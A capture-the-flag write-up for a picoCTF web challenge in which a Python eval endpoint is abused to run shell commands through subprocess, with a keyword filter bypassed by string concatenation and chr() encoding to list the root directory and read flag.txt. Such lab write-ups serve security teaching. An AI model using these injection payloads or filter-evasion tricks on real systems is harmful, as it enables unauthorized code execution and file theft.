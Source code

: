 ## 3v@l

In the comments of the HTML, we can see a helpful note from the developer that they're using python's eval function.

Reading the [an article on the eval function](https://realpython.com/python-eval-function/), I tested out all of the "minimizing security issues" code.
```python
__import__('subprocess').getoutput('echo Hello, World')
```

This code (directly from the article) surprisingly worked which means we're able to execute code!

```python
__import__('subprocess').getoutput('ls')
```

This gets blocked by the regex (it helpfully tells us that we aren't allowed to use the term ls. So, to get around it we just use the fact that we're inside Python to do a string concatenation.
```python
__import__('subprocess').getoutput('l'+'s')
# Result: app.py static templates
```

Hmm okay so let's try getting the root directory.
```python
__import__('subprocess').getoutput('l'+'s /')
# Error: Detected forbidden keyword ''.
```

Looks like we're not allowed to (which is expected based on the regex) to use the "/" character. Luckily again since we're in python, we can use the ord/chr functions to get the ascii representation instead.
```python
# >>> ord('/')
# 47
__import__('subprocess').getoutput('l'+'s '+ chr(47))
# Result: app bin boot challenge dev etc flag.txt home lib lib32 lib64 libx32 media mnt opt proc root run sbin srv sys tmp usr var
```

Trying to cat the flag.txt file leads the webapp to get angry at our direct usage of `cat` and `.`. Let's use our previous tricks to run
```python
__import__('subprocess').getoutput('c' + 'at '+ chr(47) + 'flag' + chr(46) + 'txt')
# Result: picoCTF{D0nt_Use_Unsecure_f@nctions68288869}
```

